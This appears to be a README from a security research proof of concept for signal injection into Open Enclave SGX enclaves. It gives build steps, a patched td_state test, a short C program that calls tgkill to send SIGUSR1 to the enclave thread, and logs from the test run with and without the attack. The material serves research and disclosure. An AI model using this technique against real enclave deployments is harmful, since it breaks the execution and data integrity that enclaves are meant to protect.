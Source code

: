 # openenclave
Our attack uses the untrusted signal handling interface in openenclave to compromise the execution integrity of the enclave. Using our attack, the unstrusted software can arbitrarily trigger the signal handlers in the enclave.
build openenclave and source openenclaverc

```bash
mkdir build
cd build
cmake ..
make
make install 
source /opt/openenclave/share/openenclave/openenclaverc
```
execute the unmodified build/tests/sgx/td_state test
```bash
cd openenclave/build/tests/sgx/td_state
make test
```

We observe the following logs without our attack:

```bash
Start testing: Jan 22 20:01 CET
----------------------------------------------------------
1/1 Testing: tests/sgx/td_state
1/1 Test: tests/sgx/td_state
Command: "/home/user/sigy/openenclave/build/tests/sgx/td_state/host/td_state_host" "/home/user/sigy/openenclave/build/tests/sgx/td_state/enc/sgx_td_state_enc"
Directory: /home/user/sigy/openenclave/build/tests/sgx/td_state
"tests/sgx/td_state" start time: Jan 22 20:01 CET
Output:
----------------------------------------------------------
(tid=38838) Create a thread...
(tid=38839) thread is running...
(tid=38838) Sending interrupt to (td=0x7ffff6dd6000, tid=38839) inside the enclave...
(tid=38839) thread is interrupted...
(tid=38839) thread emulating cpuid...done
(tid=38839) thread handling div 0...done
(tid=38839) interrupt is handled...
(tid=38838) Sending interrupt to (td=0x7ffff6dd6000, tid=38839) on the host...
(tid=38839) thread is exiting...
(tid=38838) Create a thread...
(tid=38840) thread is created td=0x7ffff6dd6000
(tid=38838) Create a thread...
(tid=38841) thread is created td=0x7ffff6dd6000
=== test the td state on a thread
(tid=38839) thread is spinning on the host...
(tid=38839) thread is interrupted on the host...
=== test the handler no return
=== passed all tests (td_state)
<end of output>
Test time =   0.21 sec
----------------------------------------------------------
Test Passed.
"tests/sgx/td_state" end time: Jan 22 20:01 CET
"tests/sgx/td_state" time elapsed: 00:00:00
----------------------------------------------------------

End testing: Jan 22 20:01 CET
```

Modify the td_state test case by applying [td_state.patch](td_state.patch)
To demonstrate our attack that shows that an attacker from untrusted software can inject signals into the enclave to compromise its execution and data integrity, we modify the td_state test to not explicitly raise a signal. 
Instead, our patch replaces the signal that is raised from the enclave with a busy loop. This makes the enclave application wait for a signal. 
Using our attack, we can inject the signal from untrusted software to trigger the signal handler in the enclave. 
Note that the busy loop is a simplification in our PoC so we do not have to perfectly time the injection of the signal. 

build openenclave

```bash
mkdir build
cd build
cmake ..
make
```

run the test in openenclave/build/tests/sgx/td_state

```bash
make test
```

To inject a signal

```c
#include <sys/syscall.h>      /* Definition of SYS_* constants */
#include <unistd.h>
int main(){
	int pid = 728126; //process with cmd td_state_host from ps -all
	int tid = pid + 1;
	int signalname = 10; //SIGUSR1
	syscall(SYS_tgkill, pid, tid, signalname);
}
```
we get the following output with our attack

```
Start testing: Jan 22 19:49 CET
----------------------------------------------------------
1/1 Testing: tests/sgx/td_state
1/1 Test: tests/sgx/td_state
Command: "/home/user/sigy/openenclave/build/tests/sgx/td_state/host/td_state_host" "/home/user/sigy/openenclave/build/tests/sgx/td_state/enc/sgx_td_state_enc"
Directory: /home/user/sigy/openenclave/build/tests/sgx/td_state
"tests/sgx/td_state" start time: Jan 22 19:49 CET
Output:
----------------------------------------------------------
(tid=27459) Create a thread...
(tid=27460) thread is running...
(tid=27459) Sending interrupt to (td=0x7ffff6dd4000, tid=27460) inside the enclave...
(tid=27460) thread is interrupted...
(tid=27460) thread emulating cpuid...done
(tid=27460) thread handling div 0...done
(tid=27460) interrupt is handled...
(tid=27460) thread is exiting...
=== creating encalave /home/user/sigy/openenclave/build/tests/sgx/td_state/enc/sgx_td_state_enc
=== test the td state on a thread
=== passed all tests (td_state)
<end of output>
Test time = 149.35 sec
----------------------------------------------------------
Test Passed.
"tests/sgx/td_state" end time: Jan 22 19:51 CET
"tests/sgx/td_state" time elapsed: 00:02:29
----------------------------------------------------------

End testing: Jan 22 19:51 CET
```

We have shown that we can inject interrupts from the outside.